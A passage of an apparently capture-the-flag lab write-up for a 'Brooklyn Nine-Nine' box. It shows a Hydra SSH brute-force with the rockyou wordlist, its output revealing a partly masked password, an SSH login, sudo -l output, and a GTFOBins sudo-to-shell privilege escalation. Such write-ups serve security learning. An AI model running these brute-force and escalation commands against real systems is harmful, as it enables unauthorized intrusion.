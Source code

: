 ```sh
hydra -t 16 -l j*** -P /usr/share/wordlists/rockyou.txt 10.10.93.39 ssh                                    
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-05 21:04:41
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.93.39:22/
[22][ssh] host: 10.10.93.39   login: jake   password: 9*******1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-05 21:05
```

After a few seconds we got a password for J***

Password: 9*******1

### ssh login

Now we have the Username and the Password. We can now login into the Target with this credentials. 

```sh
ssh j***@10.10.93.39
```

After login, on this user, there is no User-flag located. So i tried to check other user directorys. But i don't have any permission to do that. 

So i decided to go for root and check then the other directorys. 

First i checked the sudo -l command. And yes we can run a command with sudo rights. 

```sh 
j***@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/l***
```

### Priv-Escalation 

Now lets have a look at GTFO-Bins. If we can escalate the privilage with that application. 
GTFOBins:

```sh
sudo l*** /etc/profile
!/bin/sh
```
